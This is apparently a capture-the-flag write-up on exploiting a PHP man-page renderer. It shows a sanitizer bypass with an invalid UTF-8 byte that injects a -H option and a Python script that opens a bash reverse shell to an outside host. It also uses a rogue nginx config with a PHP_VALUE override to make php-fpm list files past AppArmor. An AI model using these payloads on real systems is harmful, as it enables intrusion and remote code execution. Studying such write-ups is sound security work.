 This challenge is a PHP application that renders the man page for a given command as HTML. The command is taken from the query string and passed as an argument to `/usr/bin/man` via `shell_exec()`:
```php
$arg = $_GET['page'];
[...]
$manpage = shell_exec('/usr/bin/man --troff-device=html --encoding=UTF-8 ' . $arg);
```

This would be a straight-up RCE, if it wasn't for an ad-hoc query sanitizer slapped on top of this:

1. Quotes of all kinds are stripped right away: `$arg = mb_ereg_replace('["\']', '', $arg);`.
2. If there are non-word characters at the beggining of a token (`if (mb_ereg('(^|\\s+)\W+', $arg) [...] ) {`), they are also stripped: `$arg = mb_ereg_replace('(^|\\s+)\W+', '\\1', $arg);`. This prevents us from passing additional funny `-Options` or `--options` to `/usr/bin/man`.
3. Finally, `$arg = escapeshellcmd($arg)` escapes pretty much everything we could use in a shell command for malicious purposes.

At first glance, this seems surprisingly solid. But, unfortunately for the author of the sanitizer and fortunately for us, the challenge tries to use UTF-8:
```php
mb_regex_encoding('utf-8') or die('Invalid encoding');
mb_internal_encoding('utf-8') or die('Invalid encoding');
setlocale(LC_CTYPE, 'en_US.utf8');
```

In fact, strings in PHP are just old-school byte sequences. All `mb_internal_encoding()/mb_regex_encoding()` do is simply set the `encoding` parameters for `mb_*` functions, which will then handle the bytes accordingly. If the bytes we provide to these functions are not actually valid UTF-8, well, tough luck:
```php
<?php
    mb_regex_encoding('utf-8');
    mb_internal_encoding('utf-8');
    setlocale(LC_CTYPE, 'en_US.utf8');

    $valid_utf8 = "-Evil";
    // 0xCA is 0b11001010
    //   which means a continuation byte in the form of 10xxxxxx
    //   must immediately follow it => this is incorrect UTF-8
    $invalid_utf8 = "\xca" . $valid_utf8;

    // The original valid UTF-8 triggers the sanitizer,
    // so this prints "Uh-oh, busted.".
    if (mb_ereg("(^|\\s+)\W+", $valid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // However, regular expression functions silently fail
    // on invalid UTF-8, which means this prints "Go ahead."
    if (mb_ereg("(^|\\s+)\W+", $invalid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // After that, escapeshellcmd() simply drops the invalid character,
    // which is exactly what we want (i.e., this prints "bool(true)").
    var_dump($valid_utf8 === escapeshellcmd($invalid_utf8));
?>
```

Great, so this allows us to smuggle an additional option to `/usr/bin/man`. There are plenty to choose from; the most obvious one is `-H`, which allows us to specify a web browser to view the man page. `escapeshellcmd()` still escapes everything, but that actually works for us, not against:
  * the shell that PHP runs to execute `/usr/bin/man` sees escaped characters, so they are not interpreted in any way and are just passed to the `-H` option of `/usr/bin/man` directly;
  * however, *the shell that `/usr/bin/man` itself spawns to invoke the browser* sees unescaped characters.
  
This means we can use [the standard bash payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) to obtain a reverse shell. We only need to ensure we avoid spaces (they are not quoted by `escapeshellcmd()`, but can be replaced with `${IFS}`) and quotes (they are stripped unconditionally; we can base64-encode our payload to bypass this):
```python
REV_SHELL = 'bash -i >& /dev/tcp/`getent hosts cursed.page | cut -d" " -f1`/31337 0>&1'
SAFE_REV_SHELL = f'echo {base64.b64encode(REV_SHELL.encode()).decode()} | base64 -d | bash'.replace(' ', '${IFS}')
CGI_READY_REV_SHELL = b'\xca-H' + SAFE_REV_SHELL.encode() + b'; id'

[...]

requests.get(URL, params={
	'page': CGI_READY_REV_SHELL,
})
```

This is not the end of it, because we still can't read the flag even with a shell:
```
PS> python .\get_shell.py [REDACTED_IP]
[...]
$ nc -lv 31337
Listening on [0.0.0.0] (family 2, port 31337)
Connection from [REDACTED_IP] received!
bash: cannot set terminal process group (17): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b5c29be1eabd:~/html$ ls -lh /
ls -lh /
ls: cannot open directory '/': Permission denied
```

The flag is stored in `/`, but its basename is 24 random characters, which is unguessable. And the AppArmor policy for `/usr/bin/man` allows us to list files in any directory *except* the root one:
```
www-data@b5c29be1eabd:~/html$ cat /etc/apparmor.d/usr.bin.man
[...]
/** mrixwlk,
[...]
```

php-fpm, though, is not confined to any AppArmor policy. Even better, our reverse shell is running as `www-data` and we can talk to PHP via a UNIX socket (`/run/php/php7.3-fpm.sock`).

The obvious idea is to trick PHP into revealing the contents of `/`. PHP (php-fpm) speaks [FastCGI](http://www.mit.edu/~yandros/doc/specs/fcgi-spec.html), which seems moderately annoying to implement.
In order to avoid that, we spin up another instance of `nginx` with a custom config pointed at `/tmp/evil`.

```
www-data@b5c29be1eabd:/tmp/evil$ cat nginx.conf
pid /tmp/evil/evil.pid;
events {}

error_log /tmp/evil/err.evil;

http {
    access_log /tmp/evil/acc.evil;
    server {
            listen 127.0.0.1:31337 default_server;
            root /tmp/evil;
            server_name _;
            location ~ \.php$ {
                    include /etc/nginx/fastcgi.conf;
                    fastcgi_param PHP_VALUE open_basedir=/;
                    fastcgi_pass unix:/run/php/php7.3-fpm.sock;
            }
    }
}
```

The `fastcgi_param PHP_VALUE open_basedir=/` bypass is crucial for this to work.
If we omit it, php-fpm refuses to run scripts from `/tmp/evil` because its `open_basedir=` is set to `/var/www/html` in `www.conf`.

When we run `nginx` with this config, it complains that the error log is missing (I didn't find a way to make this warning go away), but runs anyway:
```
www-data@b5c29be1eabd:/tmp/evil$ /usr/sbin/nginx -c /tmp/evil/nginx.conf
nginx: [alert] could not open error log file: open() "/var/log/nginx/error.log" failed (6: No such device or address)
www-data@b5c29be1eabd:/tmp/evil$ cat evil.pid
172
```

Now all we need is a script that is going to be run by `php-fpm`:
```
www-data@b5c29be1eabd:/tmp/evil$ cat evil.php
<?php foreach (glob("/flag*") as $fn) echo "$fn\n"; ?>
```

And another one to orchestrate everything and finally get the flag:
```
www-data@b5c29be1eabd:/tmp/evil$ cat fetch_evil.php
<?php echo(file_get_contents("http://127.0.0.1:31337/evil.php")); ?>
www-data@b5c29be1eabd:/tmp/evil$ php -f fetch_evil.php
/flag_XaPrL5YjYmIhrOqxqSbUaE3u.txt
www-data@b5c29be1eabd:/tmp/evil$ cat /flag_XaPrL5YjYmIhrOqxqSbUaE3u.txt
hxp{maybe_this_will_finally_get_me_that_sweet_VC_money$$$}
```
